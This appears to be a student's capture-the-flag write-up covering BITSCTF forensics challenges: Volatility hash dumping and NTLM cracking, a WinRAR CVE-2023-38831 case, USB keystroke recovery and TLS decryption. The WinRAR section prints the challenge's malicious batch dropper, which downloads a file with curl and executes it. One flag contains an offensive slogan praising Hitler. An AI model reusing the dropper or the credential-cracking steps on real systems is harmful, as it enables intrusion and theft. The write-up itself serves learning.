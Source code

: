#Access Granted

**Flag:** `BITSCTF{adolfhitlerrulesallthepeople}`

Approach

- step 1<br>
Dumping the hash dumps from memory images using Volatility 3.

- step 2<br>
Cracking the NTLM hashes using CrackStation.


![](https://github.com/adityachawla005/cryptonite_taskphase_Aditya/raw/main/TP2/Forensics/assets/vol.png)


What you learned through solving this challenge:
<br>
- How to crack password hashes and using Volatility 3 for dumping.


References

- ![Cracking Hashes](https://crackstation.net/)

<br>
<br>

#0.69 Day

**Flag:** `BITSCTF{CVE-2023-38831}`

Approach

- step 1<br>
Exploring the WinRAR vulnerability which executes steps.pdf.bat malicious file when it is extracted. 
If we search under MogamBro's user directory in the disk dump, we find MogamBro/AppData/Roaming/WinRAR.
And also under Downloads a zip folder Follow these instructions.

```
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
@echo off
lottery.exe & start chrome -incognito https://pastebin.com/mPvzn0AD & notepad.exe secret.png.enc & curl google.com -o steps.pdf & steps.pdf
exit
```

What you learned through solving this challenge:
<br>
- About CVE and how outdates software of WinRAR can be exploited.


References

- ![Exploit](https://github.com/z3r0sw0rd/CVE-2023-38831-PoC)

<br>
<br>

#MogamBro's Guilty Pleasure	

**Flag:** `BITSCTF{sp4m_2_ph1sh_U}`

Approach

- step 1<br>
When we open the YOU WON A LOTTERY eml file under Outlook it matches the downloads file lottery.exe.
It is simple a decoy.

- step 2<br>
However the other link 50% discount on plushies is a Spam Mimmic link and has hidden flag behind it.	


![](https://github.com/adityachawla005/cryptonite_taskphase_Aditya/raw/main/TP2/Forensics/assets/vol.png)



What you learned through solving this challenge:
<br>
- About a Spam Mimmic Link.

References

- ![Source on Spam text](https://www.giac.org/paper/gsec/1461/steganography-real-risk/102743)

<br>
<br>


#I'm wired in	

**Flag:** `BITSCTF{I_7h1nk_th3y_4Re_k3yl0991ng_ME!}`

Approach

- step 1<br>
 We have to find the keystroke history of the user to obtain the flag. Going through the image, I noticed a keylog.pcapng file and a key file in the Desktop directory of MogamBro.

- step 2<br>
After extracting and analyzing the pcapng file, USB traffic can be found. Researching online about USB packets,I found a USBKeyTranslator repo to retrieve HID data from packets.

```bash
$ python USBkeysTranslator.py keylog.pcapng 

[+] Using filter "usbhid.data" Retrived HID Data is :

I haveebeen haakee  !!!
HELLMEE
BITSCTF{I_-7h1nk_th3y_4Re_k3yl0991ng_ME!}

 MogamBro
```

What you learned through solving this challenge:
<br>
- How to view the contents of a keylog file and analysing the USB traffic.

References

- ![USB keys translator](https://github.com/fa1c0n1/USBkeysTranslator)

<br>
<br>

#ByPassing Transport Layer	

**Flag:** `BITSCTF{5te4l1ng_pr1v47e_key5_ez:)}`

Approach

- step 1<br>
 I found TLS keys on MogamBro's desktop directory.Analyzing the powershell history in the AD1 image, you can see that a sequence of commands sets up environment variables for logging SSL/TLS keys, then it captures network traffic and saves the data into the pcap file given by the authors. 
We can use keys file t decrypt the TLS packets.

- step 2<br>
Using Wireshark, I imported the key file to the pcap file to reveal the unencrypted packets. It is possible by Edit > Preference > Protocols > TLS > Browse key file and Wireshark should display the unencrypted packets.Looking through the pcap, we see HTTP2 packets that seem to be images, GIFs and other files.We can export them.(lot of 18+ stuff).We can use and strings to get the flag name.

```bash
strings ./* | grep -i "BITSCTF"
BITSCTF{5te4l1ng_pr1v47e_key5_ez:)}
```

![](https://github.com/adityachawla005/cryptonite_taskphase_Aditya/raw/main/TP2/Forensics/assets/trans.png)


<br>
<br>





